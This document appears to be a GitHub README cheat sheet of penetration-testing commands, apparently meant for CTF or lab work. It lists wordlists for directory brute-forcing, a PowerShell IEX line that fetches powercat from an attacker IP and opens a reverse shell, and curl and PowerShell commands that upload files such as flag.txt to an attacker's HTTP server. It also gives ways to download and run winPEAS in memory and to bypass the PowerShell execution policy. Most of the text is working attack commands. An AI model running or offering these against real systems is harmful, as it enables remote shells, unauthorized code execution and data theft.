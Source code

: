 # Cybersecurity Tools and Files
# Dictionaries
Web Directory Brute Force - Directory List 2.3 Small (87664 Lines)
```
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/directory-list-2.3-small.txt
```
Web Directory Brute Force - Big.txt (20476 Lines)
```
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/big.txt
```
Web Directory Brute Force - Common.txt (4727 Lines)
```
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt
```
# PowerCat
```
https://raw.githubusercontent.com/voidascent/sec/main/powercat.ps1
```
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.10/powercat.ps1');powercat -c 192.168.1.10 -p 9999 -e powershell
```
# HTTP Server for Upload and Download
```bash
https://raw.githubusercontent.com/voidascent/sec/main/httpserver.py
```
Usage
```bash
python3 httpserver.py # Default Port 8000
python3 httpserver.py -p 8888 # Running on Port to 8888
```
Curl (Linux and Windows cmd)
Curl Upload
```
curl -F 'file=@/home/ubuntu/Desktop/flag.txt' http://192.168.10.10:8000/
```
Curl Download
```
curl -O http://192.168.10.10:8000/download/linpeas.sh
```
PowerShell (Supported in PowerShell 3.0 and later)
PowerShell Upload
```
$FilePath = "C:\Users\Administrator\Desktop\flag.txt"; $Url = "http://192.168.10.10:8000/"; Add-Type -AssemblyName System.Net.Http; $client = New-Object System.Net.Http.HttpClient; $content = New-Object System.Net.Http.MultipartFormDataContent; $fileStream = [System.IO.File]::OpenRead($FilePath); $fileContent = New-Object System.Net.Http.StreamContent($fileStream); $content.Add($fileContent, "file", [System.IO.Path]::GetFileName($FilePath)); $result = $client.PostAsync($Url, $content).Result; $result.Content.ReadAsStringAsync().Result
```
PowerShell Download
```
Invoke-WebRequest -Uri "http://192.168.10.10:8000/download/PowerUp.ps1" -OutFile "C:\Users\Administrator\Desktop\PowerUp.ps1"
```

# WinPEAS

Exe

```powershell
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASany_ofs.exe
```

Exe - Execution

```
$url = "http://192.168.45.168:8888/winPEASany_ofs.exe"
```
```
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
```

Ps1

```powershell
https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1
```

Ps1 - Execution

```powershell
powershell -Command "iwr -Uri 'http://192.168.10.10:8888/winPEAS.ps1' -OutFile $env:temp\winPEAS.ps1; Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; & $env:temp\winPEAS.ps1"
```
```
